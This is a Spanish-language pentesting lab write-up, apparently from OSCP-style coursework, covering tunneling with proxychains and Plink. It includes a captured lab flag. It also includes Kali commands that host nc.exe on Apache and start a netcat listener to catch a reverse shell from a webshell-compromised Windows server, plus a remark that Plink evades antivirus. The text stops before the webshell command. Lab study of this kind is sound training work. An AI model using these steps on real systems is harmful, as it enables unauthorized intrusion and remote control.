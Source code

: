 Y podemos emplear proxychains:

```
kali@kali:~/Downloads$ proxychains ./ssh_exe_exercise_client.bin -i 10.4.187.215
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Connecting to 10.4.187.215:4141
[proxychains] Strict chain  ...  127.0.0.1:9998  ...  10.4.187.215:4141  ...  OK
Flag: "OS{b7a21c79d7ae9fb046e944fedbacef8e}"
```

<br />

#### 4.2. Plink

En el caso de no tener habilitado OpenSSH en el host de Windows (es una práctica común que los administradores deshabiliten dicho cliente por razones de seguridad).

Sin embargo, antes de que se desarollara OpenSSH los administradores empleaban todavía podemos intentar utilizar PuTTY y su contrapartida cli; PLINK (PuTTY Link). 

Una de las principales ventajas de emplear estas herramientas es que, al ser bastante populares entre administradores de sistemas y redes rara vez serán detectadas por mecanismos de seguridad (antivirus).

Veamos un ejemplo de aplicación en el siguiente escenario. En este escenario, encontramos que MULTISERVER03 ahora tiene una aplicación web en el puerto TCP 80 expuesto. Todos los demás puertos de entrada están bloqueados por un firewall, por lo que RDP tampoco está disponible. 

El diseño es muy parecido al siguiente diagrama:

<div style="text-align:center">
	<img src="{{ 'assets/img/pen/Pasted image 20230612171608.png' | relative_url }}" text-align="center"/>
</div>

Hemos conseguido RCE a través de la subida de una webshell sobre el servidor web al que tenemos acceso. 

A partir de aquí y aprovechando que el firewall sólo bloquea conexiones entrantes, subimos el binario 'nc.exe' y creamos una reverse shell:

```
kali@kali:~$ sudo systemctl start apache2
[sudo] password for kali:

kali@kali:~$ find / -name nc.exe 2>/dev/null
/usr/share/windows-resources/binaries/nc.exe

kali@kali:~$ sudo cp /usr/share/windows-resources/binaries/nc.exe /var/www/html/

kali@kali:~$ nc -nvlp 4446
listening on [any] 4446 ...
```


Seguidamente, desde el webshell ejecutamos:
